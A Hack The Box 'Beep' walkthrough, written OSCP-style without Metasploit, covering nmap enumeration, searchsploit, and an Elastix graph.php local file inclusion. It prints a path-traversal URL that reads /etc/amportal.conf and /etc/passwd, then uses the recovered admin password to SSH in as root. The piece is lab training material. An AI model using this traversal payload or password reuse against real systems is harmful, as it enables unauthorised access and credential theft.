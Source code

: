 ```yaml
---
layout: post
author: dalemazza
title: HTB - Beep OSCP Walkthrough
date: 2020-07-04
category: HTB
tags: HTB
published: true
---
```


<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/beep.png">
</p>
Hi guys today I am tackling beep, One of the oldest boxes on HTB. I will be doing this box without metasploit, OSCP style. This box is a Linux box rated easy.  

This box includes the following techniques:  
* nmap
* searchsploit
* Local File Inclusion

### Quick overview  

This box is running a webserver that has elastix installed on. After trying the default credentials I could not get access. I searched for exploits relating to elastix and found a few. After trying many of them one finally worked. This exploit took me straight to Root!

I Start **nmap** scan as per normal.    
`sudo nmap -A -T4 -p- 10.10.10.7`
```
Nmap scan report for 10.10.10.7
Host is up (0.012s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS PIPELINING UIDL RESP-CODES TOP LOGIN-DELAY(0) AUTH-RESP-CODE USER IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) APOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: X-NETSCAPE NAMESPACE ACL Completed THREAD=ORDEREDSUBJECT CHILDREN CATENATE BINARY IMAP4rev1 MAILBOX-REFERRALS SORT=MODSEQ ID STARTTLS LISTEXT URLAUTHA0001 LIST-SUBSCRIBED IDLE CONDSTORE ANNOTATEMORE RENAME UIDPLUS ATOMIC RIGHTS=kxte IMAP4 LITERAL+ UNSELECT OK QUOTA NO MULTIAPPEND SORT THREAD=REFERENCES
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-04T16:22:18+00:00; +3m04s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesnt have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|specialized|printer|proxy server
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (94%), Riverbed RiOS (94%), HP embedded (94%), WebSense embedded (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6.18 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:linksys:wrv54g cpe:/o:riverbed:rios cpe:/o:linux:linux_kernel:2.6 cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.18 (95%), Linux 2.6.9 - 2.6.24 (95%), Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.27 (95%), Linux 2.6.30 (95%), Linux 2.6.5 - 2.6.12 (95%), Linux 2.6.5-7.283-smp (SuSE Enterprise Server 9, x86) (95%), Linux 2.6.8 (Debian 3.1) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 3m03s

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   11.57 ms 10.10.14.1
2   11.72 ms 10.10.10.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

That's a lot of stuff to enumerate! I like to start at port 80.  

The web server served me this page

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/1.png">
</p>  
### Fig 1. Elastix login page  
This page is from elastix. Elastix is an unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center. After trying to default credentials I could not get access. Let's see if searchsploit has any exploits.

***
### What is searchsploit?
Searhsploit is a database of exploits. You can give it a program with or without the version and it will go out to several places to see if any exploits are found for that software. The results also give you the scripts used to exploit it.

```
searchsploit Elastix
```


<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/3.png">
</p>  
#### Fig 2. Searchsploit results  

Searchsploit has found a few exploits. I struggled to find the version of the the software running so I tried all the exploits. Eventually the **Elastix 2.2.0 - 'graph.php' Local File Inclusion** exploit worked!

Upon looking up the exploit on exploit DB [here](https://www.exploit-db.com/exploits/37637). I found that the exploit had a python script that executes an **LFI** in the graph.php current language path. I didn't need the whole script so i took the **LFI** location and tried it.  

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/lfi.png">
</p>  
#### Fig 3. LFI location  

Now lets see if the exploits runs.

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/4.png">
</p>  
#### Fig 3. LFI exploits

It works! The page has a lot of text on the screen so i search for "pass"

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/5.png">
</p>  
#### Fig 3. Admin credentials

Looks like the we have some admin credentials. One thing I notice is that this page contains the user and passwords for several programs, The same password and username keeps popping up, maybe he use's that for everything?

Let's see what `/etc/passwd` gives us

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/6.png">
</p>  
#### Fig 4. etc/passwd

Here we can see that there is a user called 'fanis', we have not got a password for that yet. Let's be cheeky and see if I can read the `root.txt`

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/7.png">
</p>  
#### Fig 5. No access to root.txt

Worth a shot! Let's see if the admin reuses his credentials
```
ssh root@10.10.10.7
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/10.png">
</p>  
#### Fig 6. SSH error

That is a weird error. After googling I found that this happens when connecting to old deprecated versions of **SSH**. We have to use a flag to connect to this machine.
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/8.png">
</p>  
#### Fig 7. root

It worked! Looks like we have root aswell! Time to get those flags!
```
cat root.txt

cat /home/fanis/user.txt
```

This was a fairly easy box, There are many methods to root this box but this is the one I found. Thanks
